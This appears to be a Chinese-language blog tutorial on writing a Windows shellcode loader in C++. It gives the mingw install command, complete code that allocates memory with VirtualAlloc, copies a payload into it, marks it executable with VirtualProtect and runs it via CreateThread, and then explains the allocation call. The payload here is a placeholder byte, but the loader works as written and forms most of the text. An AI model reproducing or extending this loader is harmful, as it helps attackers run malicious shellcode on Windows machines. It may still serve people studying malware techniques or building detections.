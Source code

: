 ﻿![在这里插入图片描述](https://img-blog.csdnimg.cn/1893a5acbac04c53aea168670a9e28e0.png)

# 环境安装
c++编译环境
```
apt-get install g++-mingw-w64-x86-64
```
## 简单的演示
一串简单的将shellcode加载入windows内存执行的c++代码
```
#include <windows.h>
#include <stdio.h>

int main() {

	unsigned char payload[] = "\x00";


	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
	MoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}


	HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
	if (!tHandle) {
		printf("Failed to Create the thread (%u)\n", GetLastError());
		return -3;
	}

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	WaitForSingleObject(tHandle, INFINITE);

	return 0;
}

```
## 解释：
payload变量里存储的就是我们的shellcode
代码：
```
LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```
作用：
```
这行代码是使用Windows操作系统提供的函数在进程的虚拟内存空间中分配内存块

LPVOID alloc_mem: 这是一个指向void类型的指针，用于存储分配的内存块的起始地址。
LPVOID是Windows API中表示内存地址的通用类型

```